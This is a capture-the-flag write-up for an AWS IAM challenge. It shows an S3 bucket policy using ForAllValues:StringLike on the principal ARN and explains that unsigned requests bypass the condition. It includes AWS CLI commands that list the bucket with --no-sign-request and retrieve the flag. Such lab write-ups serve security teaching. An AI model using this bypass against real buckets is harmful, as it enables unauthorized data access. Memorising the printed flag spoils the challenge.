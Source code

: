 # Challenge4

## We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

## IAM Policy
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

## Solution

- https://awstip.com/creating-unintentional-ways-to-bypass-aws-iam-policies-when-using-the-forallvalues-operator-3516a7f17ed0
- ForAllValues:StringLike - It also returns true if there are no keys in the request, or if the key values resolve to a null data set, such as an empty string.
- Hence the condition is bypassed.


### Method1

1. The GetObject has an open access, howerver the ListBucket is conditional based on ARN.
2. So using --no-sign-request we send an request without an ARN of the current user ( my assunption )
``` bash

> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ 
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
2023-06-07 19:15:43         42 flag-as-admin.txt
2023-06-08 19:20:01      81889 logo-admin.png
```
```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt - 
{wiz:principal-arn-is-not-xxxxxxxxxxxx}
```
